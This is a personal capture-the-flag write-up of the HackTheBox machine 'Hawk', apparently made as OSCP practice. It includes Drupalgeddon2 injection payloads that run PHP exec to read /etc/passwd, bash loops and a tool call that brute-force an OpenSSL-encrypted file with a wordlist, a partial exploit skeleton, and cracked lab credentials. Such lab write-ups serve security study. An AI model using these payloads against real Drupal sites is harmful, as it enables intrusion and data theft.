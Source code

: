 
Name: Hawk
Date:  
Difficulty:  Medium
Goals:  OSCP - Became part of the 12 hour brutal self assessment as scripting for a hour and a half or this is a Helped-Through with added yikes so on the cards otherwise
Learnt:
- Better weird file drilling the method
- Some more xdotool is a cool extra to my life I should try use at some point 
- Drawning eletronic pictures is go for reporting, but pen and paper is supreme speed solving utility
- Do stuff till last argement:`$?` does not equal 0; `... > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi;`


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Hawk/Screenshots/ping.png)

FTP - has .drupal.txt.enc
![](ftpgrab.png)

![](ftp-drupal-txt-enc.png)

![](decode.png)

Removed `\n` newlines from the decoded-drupalDOTtxt.txt - Check 7900 Drupal7

![](charsbreakstdout.png)

robot.txt - includes, misc, modules, profiles - see screenshots and robots.txt in this directory.

![](testadminprofile.png)

Checked themes/chocolate, profile/admin to test what the site was using for 
![](cronDOTphp.png)
![](errorpagetestingtwo.png)
![](testadminprofile.png)


![](drupalversion.png)

![](leadstoupdatedotphp.png)
Potentially find access to update the site maliciously 
![](updatescript.png)

![](sqlitelighting.png)

What an exploit name!
![](drupalgeddon3.png)
So metasploit is possible and [python2 exploit](https://github.com/sl4cky/CVE-2018-7600/blob/master/Drupalgeddon2.py), for OSCP compliance and readying!
Both require authentication, so cracking the drupal.txt.enc properly seems the intended path.

Nikto finds a web.config with some rules page name requests and page handling, aswell a rule for pages to then display if parameterised
![](webDOTconfig.png)

Fuzz the ?q=FUZZ, but corss check with robots.txt, see curled version.
![](robots.txt.png)

Manual toying with the exploits
```php
user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax

Data%3dform_id%3duser_register_form%26_drupal_ajax%3d1%26mail[%23post_render][]%3dexec%26mail[%23type]%3dmarkup%26mail[%23markup]%3d<%3fphp+eval('cat+/etc/passwd')php>
// The above failed
```

[[cache-poisoning-fuzz-http___10.129.95.193__9cd019c40b46d1dcffde94fa825ce5a2=1]]

I forget to screenshot and potentially check
![](filethefileidiot.png)

Peeking at [0xDF](https://0xdf.gitlab.io/2018/11/30/htb-hawk.html#encrypted-file---brute-with-bash), I need to write a script presummably for the salt. My brain is chickening when I do not know something. I need to put this to one side and try another box.

Returning to script my heart out to lay waste to openssl the cryptographic headache that has spoiled my momentuum in several CTFs. And because I am actually going to be calm and slow time for making problem solving pictures.

```
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
```

Practicing a old problem solving technique from programing challenges till I found the repository for bruteforcing the file after *one* round of base64 decoding. [bruteforce-salted-openssl](https://github.com/glv2/bruteforce-salted-openssl) tries to find the apssword of a file thaty was enrypted with 'openssl' command. If this becomes a Helped-through post cracking the password or fail at cracking it then the *"forfeit"* is to learn C threading for an hour. As a bash script could probably just:

```bash
passwords=$(cat rockyou.txt)
for pass in $passwords; do
	openssl enc -aes-256-cbc -d -a -in $file.enc -out file.txt
		xdotool type '$pass'
		xdotool key Return
done
```

![2000](Hawk-Decoding-Section)


```bash
cat d.txt.enc | base64 -d deb64Pass.txt
git clone https://github.com/glv2/bruteforce-salted-openssl.git
cd bruteforce-salted-openssl
./autogen.sh
./configure
make 
# Original attempt
./bruteforce-salted-openssl -t 4 -1 '../deb64Pass.txt' 
# Working
...
```

Four hours of other activities in the foreground. No crack. 30 minutes threading in C forfeit, peak at solution move on to priv escalation for 40 minutes urgent privilege escalation, before 20 minutes if required, Helped-Throughed. Peaked at 0xDf

```bash
cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;
```

The important scripting lesson here writing the conditional and devnull to pass stderr to null.
`... > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi;`. Although this never work the bash scripting ideas was worth testing it and will be added to my notes on Useful Bash. [Python2 tool to bruteforce openssl ciphers against a wordlists bvy HrushikeshK](https://github.com/HrushikeshK/openssl-bruteforce)

```bash
python openssl-bruteforce/brute.py /usr/share/wordlists/rockyou.txt  openssl-bruteforce/ciphers.txt .drupal.txt.enc 2> /dev/null
```

![](cracked.png)

## Exploit

Armed with:
```go
Password found with algorithm AES256: friends
Data:
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```

From this point on I want to see if I can speed through this RCE without metasploit and privesc in forty-ish minutes, I am still going to set this to Helped-Through becuase picked the wrong tool and the script failed. Although I have found the RCE from prior needing help, I starred and follow the tool maker and think my recon for this box was stellar - cracking very subpar. Openssl, javascript and be as throughout the first time paralelled with nice linear task management is getting there.

`admin : PencilKeyboardScanner123`
![](admin-password.png)

Baby step thinking out the exploit if python for one day exploit writing
```python
import requests 


uri_path = http://10.129.95.193/
drupal_node = 1
drupal_session = # cookie 
payload_enc
"{uri_path}/?q=node/#{drupal_node}/delete&destination=node?q[%2523post_render][]=passthru%26q[%2523type]=markup%26q[%2523markup]=php%20-r%20'#{payload_enc}"
```

[Find the node number](https://ostraining.com/blog/drupal/find-node-id/)
![](nodenumber.png)
[Python3 Exploit](https://github.com/oways/SA-CORE-2018-004) 
-  Returns .html, but my guess is that - testing with tcpdump is that the sites directory make the off-the-shelf-exploit not produce a RCE.

An 1.5 hour of figgling around; Lesson dithering on the exploits.

## Foothold

## PrivEsc

      

